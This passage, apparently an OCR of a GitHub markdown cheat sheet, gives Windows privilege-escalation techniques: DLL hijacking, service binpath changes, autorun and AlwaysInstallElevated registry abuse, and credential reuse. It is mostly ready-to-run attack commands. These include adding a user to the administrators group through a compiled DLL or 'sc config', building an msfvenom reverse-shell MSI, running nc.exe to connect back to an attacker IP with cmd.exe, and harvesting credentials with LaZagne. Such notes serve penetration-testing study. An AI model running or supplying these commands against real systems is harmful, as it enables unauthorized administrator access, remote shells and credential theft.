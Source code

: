     accesschk.exe /accepteula -uvqc user [service name]             #look for: SERVICE_STOP, SERVICE_START    

Find service with a DLL that isn't found, able to start/stop service and searched location is in a writeable directory. Also need C source code- transfer to Kali - insert line then compile.  

    system("cmd.exe /k net localgroup administrators user /add");             #line to insert in C code
    
    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll              #compile on Kali then transfer   
### Binpath  
Look for SERVICE_CHANGE_CONFIG and SERVICE_START     
Windows XP SP1 - upnphost service and dependant service. [Ref](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)  

     accesschk.exe /accepteula -wuvc [svc name]         
     
     sc config [svc name] binpath= "net localgroup administrators [username] /add"   
     sc start [service name]   
## Registry Exploits
### Autoruns   
Search

    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run  
    reg query HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce  
    reg query HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
    reg query HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

Confirm perms - overwrite the program? (May need to upload accesschk) 

    accesschk /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
### AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f msi -o reverse.msi /quiet /i reverse.msi
    #upload reverse shell to C:\temp and run    
    msiexec /quiet /qn /i C:\Temp\reverse.msi
## Passwords  
Use creds locally:     

    C:\Windows\System32\runas.exe /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"       
    PsExec64.exe /accepteula -i -u admin -p password C:\Temp\reverse.exe      
Search for creds:   

[LaZagne](https://github.com/AlessandroZ/LaZagne/tree/master): search for creds.    

    laZagne.exe all    
Hidden Files  

    PS > Get-ChildItem -Hidden -Path C:\Users\admin\Desktop\     
Run from C:\ (recursive search).  
